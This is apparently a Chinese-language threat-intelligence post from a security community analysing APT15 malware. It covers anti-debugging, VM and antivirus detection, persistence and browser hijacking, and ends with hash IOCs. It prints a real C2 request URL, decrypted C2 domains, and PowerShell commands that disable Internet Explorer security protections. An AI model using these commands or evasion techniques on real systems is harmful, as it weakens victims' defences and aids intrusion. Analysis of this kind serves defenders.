

# APT15 技术手段分析 - 先知社区

APT15 技术手段分析

- - -

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092742-686969ba-d058-1.jpeg)

  APT15 组织具备完善的反侦查手段，如 PEB 结构/进程检测和 Int3 异常调试状态，也有虚拟机检测，反杀软等目标化工程，本篇技术分析主要对检测技术和劫持分析。

### 样本分析

#### 反调试

fs:0x30->PEB.NtGlobalFlag(0x68) 如果等于 0x70 意味着调试状态，如下所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092747-6b61719e-d058-1.png)

Int3 反调试，如下所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092749-6cf53a40-d058-1.png)

OD 进程检测

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092753-6ef051ea-d058-1.png)

动态获取 WinHttpApi

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092756-70d167c4-d058-1.png)

C2 请求报文特征，内存解密数据如下所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092758-72404d8c-d058-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092801-73dac3a2-d058-1.png)

#### 虚拟机检测

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092804-75d89a58-d058-1.png)

实际物理内存检测，如果小于 0x8000000000 内存中止程序。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092810-7919447e-d058-1.png)

创建互斥体，创建分发线程等待事件结束退出。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092853-92ea500a-d058-1.png)

#### 时间检测

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092817-7d3f26fe-d058-1.png)

梳理如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092823-8131a0f2-d058-1.png)

#### 杀软检测

系统信息采集，包含主机/用户名/权限，拼接释放路径检测是否有 360tray.exe/wireshark.exe 运行，如下所示

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092908-9bae6bae-d058-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092911-9d6ec6c8-d058-1.png)

创建线程用于持久化操作，利用 Com 接口完成：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092913-9ee2b456-d058-1.png)

再次检测 360/Wirsharek 进程，确保无误后进入下一步操作

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092916-a092eece-d058-1.png)

#### 浏览器劫持

检测系统安装浏览器，如果是指定浏览器，退出

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092920-a3072080-d058-1.png)

设置不检查 Internet Explorer 是否为默认浏览器。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092923-a4772bea-d058-1.png)

  设置代理，利用 Com 接口请求代理服务器，通过 server\_ver，remark，search 等标识来识别来自于客户端请求，如下所示：

```plain
http://www.apecdns.asia/Users/login.asp?type=query&server_ver=V21&remark=OLEdrv&search=3991
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092926-a68387e4-d058-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092928-a7e0e9a6-d058-1.png)

对无效站点证书关闭警告，如下图所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092931-a9a3e568-d058-1.png)

数据通信编码 base64，部分已经更换成 AES

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092933-aae99260-d058-1.png)

  利用 Com 接口执行 Http 请求，将指令封装至报文中，如&Cmd，=101/102 用来获取对应的功能指令，部分功能如下：

下载文件执行

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092936-acb5a840-d058-1.png)

释放 vbs 执行

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092940-aee9259c-d058-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092942-b0606750-d058-1.png)

数据保存

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092946-b29c10e6-d058-1.png)

另一种网络劫持手段，内存解密域名如下：

```plain
press|press.premlist.com|upgrade.aspx|index.aspx|newinfo.aspx|draft.aspx|contexts.aspx|views.aspx|chart.aspx|channels.aspx|global.aspx
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092950-b4ca8e4c-d058-1.png)

请求键值 Domain/Host，查询和设置代理

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092953-b65873c8-d058-1.png)

内存解密 Powershell，执行如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221092956-b8267c2c-d058-1.png)

```plain
powershell -command 
"&{New-ItemProperty 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings' -Property DWORD -name WarnonZoneCrossing -value 0 -Force}"
```

```plain
powershell -command 
"&{New-ItemProperty' HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap' -Property DWORD -name IEHarden -value 0 -Force}"..
```

```plain
powershell -command 
"&{New-ItemProperty 'HKCU:\Software\Microsoft\Internet Explorer\PhishingFilter' -Property DWORD -name Enabled -value 1 -Force}"
```

```plain
powershell -command 
"&{New-ItemProperty 'HKCU:\Software\Microsoft\Internet Explorer\PhishingFilter' -Property DWORD -name ShownVerifyBalloon -value 3 -Force}"
```

```plain
powershell -command 
"&{New-ItemProperty 'HKCU:\Software\Microsoft\Internet Explorer\Main' -Property String -name Check_Associations -value 'no' -Force}"
```

```plain
powershell -command 
"&{New-ItemProperty 'HKCU:\Software\Microsoft\Internet Explorer\Main' -Property DWORD -name DEPOff -value 1-Force}"
```

```plain
powershell -command 
"&{New-ItemProperty 'HKCU:\Software\Microsoft\Internet Explorer\Recovery' -Property DWORD -name AutoRecover-value 2 -Force}"
```

```plain
powershell -command 
"&{New-ItemProperty 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3' -Property DWORD -name 2500 -value 3 -Force}"
```

### IOCs

```plain
03a2f5ea0cea83e77770a4018c4469ab
7d584187e33f58f57d08becf3cc75b72
9ad5ad17c08632493dfbacb3be84dc21
c79b60e5e923f5fde2a02991238ae688
ff49b26664070b080d30d824bd2f3064
```
